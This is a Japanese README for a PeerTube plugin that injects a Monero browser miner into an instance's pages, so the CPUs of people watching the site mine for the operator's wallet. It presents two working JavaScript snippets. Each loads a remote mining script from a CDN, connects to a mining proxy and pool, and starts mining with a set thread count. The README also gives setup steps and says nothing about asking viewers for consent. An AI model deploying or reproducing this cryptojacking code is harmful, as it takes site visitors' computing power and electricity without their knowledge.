

<div align="center">

<p></p>

<p>Googleの検索エンジンに引っ掛からないから色々やっているんですが、中々ヒットしないから上の画像をalt付きで貼り付けたりと手を尽くしています。</p>

<p>このコードが新規にPeerTubeのプラグインを開発する方々の助けや参考になれば良いなと思っています。</p>

<p>・Github Pages<br>
<a href="https://pyu224.github.io/peertube-plugin-monero-miner/">https://pyu224.github.io/peertube-plugin-monero-miner/</a></p>

<p>・Repository<br>
<a href="https://github.com/PYU224/peertube-plugin-monero-miner">https://github.com/PYU224/peertube-plugin-monero-miner</a></p>

</div>

# PeerTube plugin Quickstart

See https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

https://github.com/NajmAjmal/monero-webminer

Issueとかでご意見や改善案を出してくださると嬉しいです。

野獣動画2ndというPeerTubeのインスタンスで試験運用中です。

# このプラグインについて

PeerTubeでMonero（XMR）のマイニングをPeerTubeを見ている方々のマシンのリソースを利用して行います。

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペしていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換しました。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたりこのプラグインは残しておく事にします。

# 使い方

<div align="center">



</div>

画像で大体伝わると思いますが、Moneroのウォレットのアドレスは4から始まるアドレスにして入力、プラグインの設定をアップデートして更新すれば自動でJavaScriptが挿入されてマイニングが始まるはずです。

# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

https://www.npmjs.com/package/peertube-plugin-monero-miner

・プロフィール

https://x.com/PYU224

https://linksta.cc/@pyu224

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

https://github.com/PYU224/misskey-data